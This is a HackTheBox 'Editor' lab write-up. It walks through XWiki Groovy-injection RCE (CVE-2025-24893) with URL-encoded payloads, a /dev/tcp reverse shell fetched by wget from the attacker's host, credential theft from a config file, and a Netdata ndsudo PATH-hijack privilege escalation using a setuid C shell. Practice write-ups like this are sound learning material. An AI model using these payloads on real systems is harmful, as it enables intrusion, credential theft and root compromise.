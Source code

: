 # HackTheBox - Editor Writeup

## Initial Reconnaissance

### Nmap Scan
```bash
nmap -Pn -p22,80,8080 -sC -sV 10.10.11.80
```

**Results:**
- **Port 22**: SSH (OpenSSH 8.9p1)
- **Port 80**: nginx 1.18.0 (Ubuntu) - "Editor - SimplistCode Pro"
- **Port 8080**: Jetty 10.0.20 with XWiki
  - WebDAV enabled (PROPFIND, LOCK, UNLOCK methods)
  - Redirects to `/xwiki/bin/view/Main/`

### Key Findings
- XWiki application running on port 8080
- WebDAV capabilities present
- Hosts file reveals: `editor.htb`, `wiki.editor.htb`

## Initial Access - XWiki RCE

### Vulnerability: CVE-2025-24893
XWiki Platform 15.10.10 suffers from a critical Remote Code Execution vulnerability in the SolrSearch endpoint, allowing guest users to execute arbitrary Groovy code.

### Exploitation

1. **Initial Command Execution Test:**
```bash
# URL-encoded payload for: whoami
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22whoami%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

2. **Reverse Shell via File Download:**
The key insight is to use `wget` to download shell scripts rather than trying to inject complex payloads directly through URL encoding.

**Step 1: Create shell script locally:**
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.12/4444 0>&1
```

**Step 2: Host HTTP server:**
```bash
python3 -m http.server 80
```

**Step 3: Download and execute via XWiki:**
```bash
# Download shell script
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://10.10.14.12/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

# Make executable
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("chmod%20+x%20/tmp/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

# Execute
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("/tmp/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

**Result:** Shell as `xwiki` user

## Lateral Movement - Database Credentials

### XWiki Configuration Discovery
```bash
find /var/lib/xwiki -name "hibernate.cfg.xml" 2>/dev/null
cat /var/lib/xwiki/data/hibernate.cfg.xml
```

**Found credentials:**
- Username: `xwiki`
- Password: `theEd1t0rTeam99`

### SSH Access
The database password works for SSH access:
```bash
ssh oliver@editor.htb
# Password: theEd1t0rTeam99
```

**Note:** While `su oliver` failed from the xwiki shell, SSH login worked due to different PAM authentication configurations.

## Privilege Escalation - Netdata SUID Exploitation

### Vulnerability: CVE-2024-32019 (GHSA-pmhq-4cxq-wj93)
Netdata v1.45.2 contains a local privilege escalation vulnerability in the `ndsudo` binary via untrusted search path.

### Discovery
```bash
find / -perm -4000 2>/dev/null | grep netdata
# Found: /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo (SUID root)

/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo --help
```

### Critical Exploitation Detail: Why C Program vs Bash Script

**The vulnerability requires a compiled C program, not a shell script. Here's why:**

#### Shell Scripts Fail:
- Modern systems **drop SUID privileges** when executing shell scripts for security
- The bash script would run as the real user (oliver), not root
- Even `bash -p` gets blocked by security protections
- Shell interpreters have built-in protections against SUID escalation

#### C Programs Succeed:
- Compiled binaries properly **inherit the SUID context**
- System calls like `setuid(0)` and `setgid(0)` work when you have effective root privileges
- No interpreter security restrictions to bypass
- Direct system calls provide reliable privilege escalation

### Exploitation Steps

1. **Create malicious C program locally:**
```c
// malicious.c
#include <unistd.h>
#include <stdlib.h>
int main() {
  setuid(0);   // Set real user ID to root
  setgid(0);   // Set real group ID to root
  execl("/bin/bash", "bash", "-i", NULL);
  return 0;
}
```

2. **Compile and serve:**
```bash
gcc -o nvme malicious.c
python3 -m http.server 80
```

3. **Download and execute on target:**
```bash
cd /tmp
wget http://10.10.14.12/nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

**Result:** Root shell

### Technical Details
- `ndsudo` searches for executables using the `PATH` environment variable
- By placing our malicious `nvme` binary in `/tmp` and prepending `/tmp` to `PATH`
- When `ndsudo nvme-list` executes, it finds our fake `nvme` instead of the real one
- Our C program runs with SUID root privileges and properly escalates to root

## Lessons Learned

1. **File Download > Direct Injection:** Complex payloads should be downloaded rather than URL-encoded
2. **PAM Differences:** SSH and `su` may use different authentication backends
3. **SUID Exploitation:** Always use compiled C programs for reliable SUID privilege escalation
4. **Path Manipulation:** SUID binaries that use `PATH` are prime targets for privilege escalation

## Flags

- **User Flag:** `/home/oliver/user.txt`
- **Root Flag:** `/root/root.txt`

## Timeline

1. Nmap scan reveals XWiki on port 8080
2. XWiki RCE (CVE-2025-24893) → `xwiki` user shell
3. Database credentials found in hibernate.cfg.xml
4. SSH as `oliver` using database password
5. Netdata SUID exploitation (CVE-2024-32019) → root shell

## IOCs

- XWiki version 15.10.10 (vulnerable to CVE-2025-24893)
- Netdata version 1.45.2 (vulnerable to CVE-2024-32019)
- Password reuse: database credentials used for SSH access
- SUID binaries in `/opt/netdata/usr/libexec/netdata/plugins.d/`